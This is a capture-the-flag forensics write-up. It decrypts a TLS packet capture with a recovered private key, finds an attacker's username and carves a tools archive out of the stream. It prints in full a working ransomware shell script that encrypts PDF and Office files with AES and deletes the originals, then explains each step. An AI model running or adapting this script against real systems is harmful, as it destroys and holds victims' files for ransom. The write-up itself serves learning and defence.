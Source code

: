 # Task A2 - Identifying the attacker

<p align="center">
<img src="https://img.shields.io/badge/categories-Computer%20Forensics%2C%20Packet%20Analysis-informational">
<img src="https://img.shields.io/badge/points-40-success">
<img src="https://img.shields.io/badge/tools-Wireshark-blueviolet">
</p>

> Using the timestamp and IP address information from the VPN log, the FBI was able to identify a virtual server that the attacker used for staging their attack. They were able to obtain a warrant to search the server, but key files used in the attack were deleted.
>
> Luckily, the company uses an intrusion detection system which stores packet logs. They were able to find an SSL session going to the staging server, and believe it may have been the attacker transferring over their tools.
>
> The FBI hopes that these tools may provide a clue to the attacker's identity
>
> Downloads:
>
> - [Files captured from root's home directory on the staging server (root.tar.bz2)](./provided/root.tar.bz2)
> - [PCAP file believed to be of the attacker downloading their tools (session.pcap)](./provided/session.pcap)
>
> Prompt:
>
> - What was the username of the account the attacker used when they built their tools?

## Solution

The first thing I did was extract the contents of `root.tar.bz2`. The most interesting files from there were [`.bash_history`](./root-extracted/.bash_history), [`.cert.pem`](./root-extracted/.cert.pem), and [`runwww.py`](./root-extracted/runwww.py). From `.bash_history`, I saw that the attacker extracted what were presumably their ransomware tools and ran `runwww.py`, which starts an HTTP TLS server using OpenSSL. As part of running that server, the script generates a certificate and stores it in `.cert.pem`, which luckily the attacker never deleted. Using Wireshark, we can actually use this certificate to decrypte the TLS traffic going through the staging server as captured in [`session.pcap`](./provided/session.pcap).

After opening up the packet capture in Wireshark, I followed [a guide on its wiki](https://wiki.wireshark.org/TLS#tls-decryption) to add the RSA private key in `.cert.pem` to allow the TLS traffic to be decrypted. This was the result after doing so:

<div align="center">
    <img src="./img/packet%20capture%20post-decryption.png" alt="Wireshark after decrypting the TLS traffic">
</div>

The GET request doesn't contain anything interesting, so I decided to check out the first packet labeled "TLS segment of a reassembled PDU:"

<div align="center">
    <img src="./img/decrypted%20contents%20of%20first%20reassembled%20PDU.png" alt="Decrypted contents of first reassembled TLS PDU">
</div>

`AheadProudGlut` doesn't really sound like a username but I decided to submit it anyways and it ended up being correct. Not so sure who came up with that username :)

## Addendum: Recovering tools.tar

I stopped there when I initially did this task, but it turns out you actually need to recover `tools.tar` (or at least part of it) from the packet capture for a later task. It took me a while to figure out how to do this but it turns out it's way easier than I though. First, you have to right click on the `GET /tools.tar HTTP/1.1` packet in Wireshark and click Follow -> TLS stream in the context menu:

<div align="center">
    <img src="./img/follow%20tls%20stream.png" alt="Following a TLS stream in Wireshark">
</div>

After doing that, a window should pop up with the entirety of the decrypted data sent from the staging computer. In the bottom left, there should be a selector that says "Entire conversation" followed by the size of it in kilobytes; I changed this to `NONE:0 -> 172.16.0.1:57670` since I only really care about what the server sent to the computer, not the initial GET request. In the bottom right, you also have to change the "Show data as:" option to "Raw" in order for it to save properly, as otherwise the dot characters are saved as periods instead of the proper bytes. After doing that, you can save the stream to a file.

<div align="center">
    <img src="./img/raw%20decrypted%20tls%20stream.png" alt="Raw decrypted TLS stream">
</div>

My saved TLS stream is located [here](./tool-recovery/decrypted-tls-stream). Note that you also have to wait a bit for Wireshark to finish reassembling the stream (i.e. the number of packets in the bottom left stops increasing), as otherwise you won't be downloading the full stream and will end up with a corrupted tar archive.

From there, the downloaded stream is still not a valid tar file:

```shell
$ xxd -l 64 decrypted-tls-stream
00000000: 4854 5450 2f31 2e30 2032 3030 206f 6b0d  HTTP/1.0 200 ok.
00000010: 0a43 6f6e 7465 6e74 2d74 7970 653a 2074  .Content-type: t
00000020: 6578 742f 706c 6169 6e0d 0a0d 0a74 6f6f  ext/plain....too
00000030: 6c73 2f00 0000 0000 0000 0000 0000 0000  ls/.............
```

Each file entry in a tar starts with the name of the file, so I assumed that the `HTTP/1.0...` section of the TLS stream has to be removed, leaving `tools/` as the first few bytes of the file. Based on the `xxd` output, `tools/` has an offset of 0x2d bytes from the beginning of the file, which in decimal is 45 bytes. The [`tail(1)`](https://www.man7.org/linux/man-pages/man1/tail.1.html) command present on most Unix derivatives allows us to truncate the beginning of the file to the desired position:

```shell
$ tail -c +46 decrypted-tls-stream > tools.tar

$ xxd -l 64 tools.tar
00000000: 746f 6f6c 732f 0000 0000 0000 0000 0000  tools/..........
00000010: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000020: 0000 0000 0000 0000 0000 0000 0000 0000  ................
00000030: 0000 0000 0000 0000 0000 0000 0000 0000  ................
```

Note that we use an offset of 46 because the t in "tools/" is the 46th byte of the file (`xxd` starts counting bytes at 0, `tail` starts at 1).

If all went well, should now be able to use the [`tar(1)`](https://man7.org/linux/man-pages/man1/tar.1.html) command to extract the `tools.tar` archive:

```shell
$ tar -xvf tools.tar
```

And boom! There should be three files in the [`tools/`](./tool-recovery/tools/) directory:

1. `openssl` - OpenSSL is a common cryptography library; this binary encompasses a lot of operations available through that library (encryption/decryption are the relevant ones)
1. `busybox` - a single binary implementing several common Linux commands (e.g. `ls`, `xxd`, and `head`)
1. `ransom.sh` - presumably the script the attacker used to encrypt the victim's files (!)

The two binaries are statically linked (i.e. all necessary libraries are included within the binaries), so I assume they're included in case the victim doesn't have them installed for some reason.

I'll include the contents of `ransom.sh` here:

```sh
#!/bin/sh
read -p "Enter encryption key: " key
hexkey=`echo -n $key | ./busybox xxd -p | ./busybox head -c 32`
export hexkey
./busybox find $1 -regex '.*\.\(pdf\|doc\|docx\|xls\|xlsx\|ppt\|pptx\)' -print -exec sh -c 'iv=`./openssl rand -hex 16`; echo -n $iv > $0.enc; ./openssl enc -e -aes-128-cbc -K $hexkey -iv $iv -in $0 >> $0.enc; rm $0' \{\} \; 2>/dev/null
```

In English, this script:

1. Reads an encryption key from standard input (i.e. the terminal)
1. Converts the key into a hexadecimal representation of the ASCII version of the key and take the first 32 characters (16 bytes/ASCII characters) of that
1. Iterates over all PDF/Microsoft Office files, encrypting them via the following steps:
   1. Generate a random 16-byte IV (in hexadecimal representation)
   1. Write the IV to a file with the name \<filename>.enc, where \<filename> is the file being encrypted
   1. Encrypt the file using the random IV and the key from step 2 using the AES-128 algorithm in CBC mode
   1. Remove the original (unencrypted) file

You can read more about [the AES algorithm](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) and [its modes of operation](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Common_modes) on Wikipedia (or elsewhere) if you're curious, but that information isn't really relevant until tasks 8 and 9. I'll attempt to explain it a bit more in the writeups for those tasks :)
